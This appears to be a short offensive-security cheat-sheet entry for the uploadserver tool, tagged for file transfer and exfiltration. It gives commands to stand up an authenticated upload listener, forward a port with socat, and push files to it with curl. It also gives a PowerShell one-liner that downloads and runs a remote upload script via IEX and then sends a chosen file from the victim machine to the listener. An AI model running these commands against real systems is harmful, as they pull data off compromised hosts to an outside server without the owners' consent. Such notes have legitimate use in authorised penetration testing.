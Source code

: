# uploadserver
% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 

## install
```bash
pipx install uploadserver
```

## python upload HTTP server (basic auth)
sudo socat TCP-LISTEN:80,fork TCP:localhost:9090
```bash
uploadserver --basic-auth-upload <uploadserver_login>:<uploadserver_password> -b <bind_ip|127.0.0.1> <http_user_port|9090>
```

## curl upload
```bash
curl -X POST http://<local_ip>:<port|80>/upload -F 'files=@basicauth-example.txt' -u <uploadserver_login>:<uploadserver_password>
```

## powershell upload
certutil -encode <infile> <outfile>
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<local_ip>:<port|80>/<psupload_path>PSUpload.ps1');Invoke-FileUpload -Uri http://<local_ip>:<port|80>/upload -User <uploadserver_login> -Pass <uploadserver_password> -File <path>
```

= psupload_path: windows/windows_weaponize/dev/
